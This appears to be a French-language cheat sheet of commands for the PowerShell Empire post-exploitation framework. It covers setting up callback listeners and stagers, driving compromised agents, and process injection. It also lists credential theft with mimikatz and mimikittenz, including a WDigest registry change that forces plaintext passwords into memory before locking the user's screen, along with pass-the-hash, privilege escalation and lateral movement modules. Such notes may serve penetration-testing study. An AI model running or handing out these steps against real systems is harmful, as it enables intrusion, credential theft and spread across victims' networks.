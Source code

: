 ## Empire

ps-empire serveur
ps-empire client

# listeners context
listeners
help
back

# créer un listener
uselistener <wait> 

* killdate - temp de vie du listener
* stagingkey -  key pour chiffrer les communications entre l'agent et le listener 
* workinghours - limite le temps d'activité du listener
* defaultdelay - specifie le delais de reponse ( les agents ne sont pas synchronisés)
 par defaut 5s (l'agent demande des renseignement au listener) , IP deja mise, port 80

set DefaultDelay 1
set Port 9999
set Host http://<IP>:9999
execute
listeners

# deployer un agent
usestager <wait> 
options  
set Listener <listener>
generate


# active agent
agents
help
rename XXXX agent1
list

interact agent1
help
info

# modules
usemodule <tab> 
	*  code_execution: These modules let you run code, including Metasploit payloads, on the target box. collection: These modules let you pillage information from the target machine.
	* credentials: These modules let you plunder usernames, hashes, and passwords from the target.
	* exploitation: These modules let you exploit additional targets.
	* lateral_movement: These modules let you pivot to other target machines.
	* management: These modules are associated with system administration functions on the target.
	* persistence: These modules will make your agent survive across user logoff or reboot.
	* privesc: These modules provide privilege escalation exploits.
	* recon: These are the reconnaissance modules.
* situational_awareness: These modules pull information from the target environment, including scanners and related tools.
    * trollsploit : troll, play audio, pop dialog
    
    
usemodule <wait> 
execute 
view 1


# pour le shell
shell <commande>
view 2

# créer un nouveau agent 
psinject http <3304(pid)>

# import script
scriptimport /opt/ps/Sherlock.ps1
scriptcmd Find-AllVulns
jobs

# pour finir
agents 
kill all
y
listeners 
kill all
exit


## modules
situational_awarness/network/powerview/get_user
situational_awarness/network/powerview/get_computer
situational_awarness/network/powerview/find_localadmin_access #connexion sur tous les hosts 
check : shell dir \\<host>\C$


# hash
	* usemodule powershell/credentials/powerdump
	* mimikittenz
	** scriptimport /opt/mimikittenz/Invoke-mimikittenz.ps1
	** scriptcmd Invoke-mimikittenz
	* mimikatz
	** changer la cle de registre pour avoir les mdp dans LSASS # +besoin que le user se reconecte, ici on verouille l'ordinateur pour le pas redemarer 
	** shell reg add
	** HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredentials /t REG_DWORD /d 1 /f
	** shell rundll32.exe user32.dll,LockWorkStation

# PTH
	* credentials/mimikatz/pth
	
# privesc
	* usemodule powershell/privesc/ask

	* If you are already admin, you can attempt to use the classic getsystem module
	* usemodule privesc/getsystem

# lateral mouvement
	* inveigh_relay 					#smbrelay
	* invoke_executemsbuild 	#execute msbild local/remote
	* invoke_psremoting 			#execute stager on host using psremoting
	* invoke_sqloscmd 				# stager on host using xp_cmdshell
	* inkoke_wmi 						#stager on wmi 
	* jenkins_script_console
	* invoke_dcom #MMC20
	* invoke_psexec
	* invoke_smbexec
	* invoke_sshcommand
	* new_gpo_immediate_task
